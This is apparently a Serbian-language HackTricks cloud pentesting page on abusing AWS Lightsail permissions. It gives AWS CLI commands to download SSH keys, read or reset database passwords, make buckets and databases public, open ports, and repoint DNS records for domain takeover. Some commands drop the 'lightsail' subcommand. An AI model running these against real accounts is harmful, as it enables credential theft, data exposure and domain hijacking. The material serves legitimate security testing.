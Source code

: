 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Za više informacija o Lightsail-u proverite:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Važno je napomenuti da Lightsail **ne koristi IAM uloge koje pripadaju korisniku** već AWS upravljanom nalogu, tako da ne možete zloupotrebiti ovu uslugu za privesc. Međutim, **osetljivi podaci** kao što su kod, API ključevi i informacije o bazi podataka mogli bi se naći u ovoj usluzi.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ova dozvola će vam omogućiti da dobijete SSH ključeve za pristup instancama:
```
aws lightsail download-default-key-pair
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar instanci.

### `lightsail:GetInstanceAccessDetails`

Ova dozvola će vam omogućiti da generišete SSH ključeve za pristup instancama:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar instanci.

### `lightsail:CreateBucketAccessKey`

Ova dozvola će vam omogućiti da dobijete ključ za pristup kanti:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Potencijalni uticaj:** Pronađite osetljive informacije unutar kante.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ova dozvola će vam omogućiti da dobijete akreditive za pristup bazi podataka:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Potencijalni uticaj:** Pronaći osetljive informacije unutar baze podataka.

### `lightsail:UpdateRelationalDatabase`

Ova dozvola će vam omogućiti da promenite lozinku za pristup bazi podataka:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ako baza podataka nije javna, možete je takođe učiniti javnom sa ovim dozvolama

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potencijalni uticaj:** Pronaći osetljive informacije unutar baze podataka.

### `lightsail:OpenInstancePublicPorts`

Ova dozvola omogućava otvaranje portova za Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:PutInstancePublicPorts`

Ova dozvola omogućava otvaranje portova za Internet. Imajte na umu da će poziv zatvoriti bilo koji port koji nije naveden.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Potencijalni uticaj:** Pristup osetljivim portovima.

### `lightsail:SetResourceAccessForBucket`

Ova dozvola omogućava dodeljivanje pristupa instancama za bucket bez dodatnih kredencijala.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Potencijalni uticaj:** Potencijalni novi pristup kanticama sa osetljivim informacijama.

### `lightsail:UpdateBucket`

Sa ovom dozvolom, napadač bi mogao da dodeli svoj AWS nalog pristup za čitanje kanticama ili čak da učini kante javnim za sve:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Potencijalni uticaj:** Potencijalni novi pristup kanticama sa osetljivim informacijama.

### `lightsail:UpdateContainerService`

Sa ovom dozvolom, napadač bi mogao da omogući pristup privatnim ECR-ima iz servisa kontejnera.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potencijalni Uticaj:** Dobijanje osetljivih informacija iz privatnog ECR

### `lightsail:CreateDomainEntry`

Napadač sa ovom dozvolom mogao bi da kreira poddomen i usmeri ga na svoju IP adresu (preuzimanje poddomena), ili da napravi SPF zapis koji mu omogućava da lažira emailove sa domena, ili čak da postavi glavnu domenu na svoju IP adresu.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

### `lightsail:UpdateDomainEntry`

Napadač sa ovom dozvolom mogao bi da kreira poddomen i usmeri ga na svoju IP adresu (preuzimanje poddomena), ili da napravi SPF zapis koji mu omogućava da lažira emailove sa domena, ili čak da postavi glavni domen na svoju IP adresu.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potencijalni uticaj:** Preuzimanje domena

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
